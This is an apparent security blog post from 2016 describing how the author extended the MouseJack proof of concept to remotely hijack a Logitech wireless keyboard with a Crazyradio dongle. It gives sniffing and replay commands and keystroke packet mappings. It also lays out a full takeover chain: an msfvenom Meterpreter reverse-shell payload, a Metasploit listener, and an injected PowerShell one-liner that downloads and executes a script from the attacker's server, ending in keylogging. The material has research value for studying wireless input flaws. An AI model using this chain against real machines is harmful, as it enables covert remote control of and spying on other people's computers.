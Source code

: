 +++
title = "Hijacking Wireless Mice and Keyboards"
date = "2016-07-09 14:40:38 +0300"
tags = ["radio"]
+++
Earlier this year researchers from [**Bastille**](https://www.bastille.net/) discovered vulnerabilities in wireless mice and keyboards that could lead to them being remotely hijacked from as far as 225 meters away. They have a dedicated site detailing the vulnerabilities dubbed [**mousejack**](https://www.mousejack.com/). They also released POC code which I have built on to implement a remote takeover of a machine using a wireless mouse/keyboard.
<!--more-->

I already had in my possession the Logitech Wireless Combo MK220 which consists of a K220 wireless keyboard and an M150 wireless mouse which I used as my test devices. 

![alt](/images/mk220.jpg)

I used the [**Crazyradio PA long range open USB radio dongle**](https://www.bitcraze.io/crazyradio-pa/) as the attack device.
The original mousejack POC code is available on [**Github**]( https://github.com/RFStorm/mousejack) with instructions on how to flash the firmware necessary to perform the attack. I therefore set up both my machine and the Crazyradio PA dongle as described in their POC and tested the functionality they had provided.

![alt](/images/CrazyRadioSide.jpg)

I was then able to scan and sniff the packets transmitted by the mouse/keyboard using the `nrf24-scanner.py` and the `nrf24-sniffer.py` scripts. However, I was more interested in hijacking the mouse/keyboard and controlling the machine remotely. I therefore extended the POC to serve my purposes.

First, I modified the `nrf24-sniffer.py` code to log the sniffed packets to a user specified output file.  

###Sniff packets from address 8C:D3:0F:3E:B4 on all channels and save them to output.log
`./nrf24-sniffer.py --lna -a 8C:D3:0F:3E:B4 -o output.log`

Next, I wrote a new python script `nrf24-replay.py` that would transmit packets read from a log file. 
This would replay captured packets or transmit generated ones and follow the wireless USB dongle as it hopped through the channels.

###Send packets from the file keystroke.log to address 8C:D3:0F:3E:B4 on a hopping channel
`./nrf24-replay.py --lna -a 8C:D3:0F:3E:B4 -v -t 10 -i keystroke.log`

With this in place I could now begin the hijack phase.
The first thing was to capture and study different key presses and interesting key combinations. From there I created mappings of the key presses to their corresponding packets. A sample of the digit mappings looks like this:

`1	B4:D3:68:62:72:7D:CC:4B:C4:DD:F5:DE:EB:F3:00:00:00:00:00:00:00:57`  
`2	00:D3:C1:1E:FE:28:B4:AB:8B:34:F5:DE:EB:F5:00:00:00:00:00:00:00:57`  
`3	00:D3:8B:94:36:32:63:B0:7D:82:F5:DE:EB:F7:00:00:00:00:00:00:00:DF`  
`4	00:D3:F6:E7:3C:36:52:67:28:1E:F5:DE:EB:F9:00:00:00:00:00:00:00:28`  
`5	00:D3:46:06:1E:DB:58:93:57:03:F5:DE:EB:FB:00:00:00:00:00:00:00:EA`  
`6	00:D3:BC:9B:18:BA:EE:93:6D:3C:F5:DE:EB:FD:00:00:00:00:00:00:00:1F`  
`7	00:D3:47:7D:FC:44:55:5E:E4:78:F5:DE:EB:FF:00:00:00:00:00:00:00:5D`  
`8	00:D3:BE:11:A7:CC:9D:75:7A:A5:F5:DE:EC:01:00:00:00:00:00:00:00:FA`  
`9	00:D3:A1:E6:E7:E1:DC:6C:70:31:F5:DE:EC:03:00:00:00:00:00:00:00:33`  
`0	00:D3:C5:01:FC:0A:F0:6C:B7:6D:F5:DE:EC:05:00:00:00:00:00:00:00:1D`  

I also did the same for useful key combinations such as `ALT-F2`, `ALT-F4` and so on.  
I then wrote a python script called `keymapper.py` that would create a log file of packets of the corresponding key presses.

Now I could generate packets and save them to a log file and then wirelessly hijack the mouse/keyboard and perform various operations on the target machine.

Powershell is becoming one of the mot effective avenues of attacking a Windows machine. I therefore used the following approach to accomplish the full hijack of a target machine:

- Generate and host a powershell payload on the attack server  
`msfvenom -p windows/meterpreter/reverse_tcp lhost=ip lport=port -f psh-cmd -o update.ps1`

- Start a metasploit listener on our attack server  
`msfconsole`  
`use exploit/multi/handler`  
`set LHOST IP`  
`set LPORT PORT`  
`set PAYLOAD windows/meterpreter/reverse_tcp`  
`exploit -j`  

- Translate our powershell one liner to the corresponding packets using the `keymapper.py` script  
```
./keymapper.py
powershell "iex (new-object net.webclient).downloadstring('http://IP/update.ps1')"
```
- Hijack the target's wireless mouse/keyboard and wait for their machine to connect back to the attack server
`./nrf24-replay.py --lna -a 8C:D3:0F:3E:B4 -i shell.log -t 10`  

- Perform post exploitation on the target machine

I have uploaded the POC code [**here**](https://github.com/iamckn/mousejack_transmit) on Github.

A POC video of the hijack described can be found below where I take over a Windows 7 machine and perform keylogging post-exploitation.  

{{< youtube YLzUeK1IvJs >}} 

Further research on different wireless mice/keyboards is ongoing, more so on the packet composition and encryption. 

Till next time, happy hacking! 
